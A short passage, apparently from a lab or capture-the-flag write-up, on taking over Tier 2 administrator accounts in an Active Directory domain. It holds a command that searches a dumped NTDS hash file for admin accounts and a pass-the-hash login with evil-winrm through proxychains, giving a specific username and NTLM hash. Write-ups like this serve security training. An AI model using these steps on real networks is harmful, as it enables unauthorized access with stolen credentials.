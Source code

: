 ## Get the admin on remaining T2

Bloodhound can can us all administrators of Tier 2:

![](screenshots/ad-corp-t2-admins.png)

So get one of these admins :

```bash
grep t2_ corpdc.hashes.ntds
```

Then use one to connect to Tier 2 as admin :

```bash
proxychains evil-winrm -i 10.200.118.21 -u t2_jordan.hutchinson -H 4aa857a1eef8ee14100355066f9a6d53
```
